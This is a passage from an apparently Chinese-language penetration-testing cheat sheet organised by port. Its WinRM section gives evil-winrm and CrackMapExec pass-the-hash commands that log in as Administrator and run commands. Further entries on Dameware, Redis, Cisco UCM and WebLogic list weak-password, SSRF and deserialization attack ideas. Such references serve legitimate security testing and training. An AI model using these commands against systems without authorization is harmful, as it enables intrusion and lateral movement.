`Winrm(http)` / `Winrm(https)`

WinRM 是 Microsoft 对 WS-Management 协议的实现,WS-Management 协议即⼀种基于标准简单对象访问协议的协议,它让来⾃不同供应商的硬件和操作系统能够互相操作。

winRM 的默认端⼝为 5985（http）或 5986（https）。winRM 横向移动同时适⽤于⼯作组和域环境。

**HASH 传递**
```bash
# evil-winrm
gem install evil-winrm
evil-winrm -i 192.168.xx.xx -u Administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
# CrackMapExec
cme winrm 192.168.xx.xx -u admin -H 00000000000000000000000000000000:xxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
```

---

## 6129

`Dameware`

- [CVE-2019-3980](../软件服务安全/CS-Exploits.md#dameware-mini-remote-control)

---

## 6379

`Redis`

- 爆破弱口令
- [Redis未授权访问](../软件服务安全/CS-Exploits.md#redis)

---

## 6970

`CISCO-UCM 的 HTTP 服务`

- [Cisco Unified Communications Manager](../../IOT/硬件安全/Device-Exploits.md#cisco-unified-communications-manager)

---

## 7001/7002

通常是 `weblogic` 中间件端口

- 弱口令,ssrf,反序列化
- [weblogic渗透](../Web安全/BS-Exploits.md#weblogic)

---
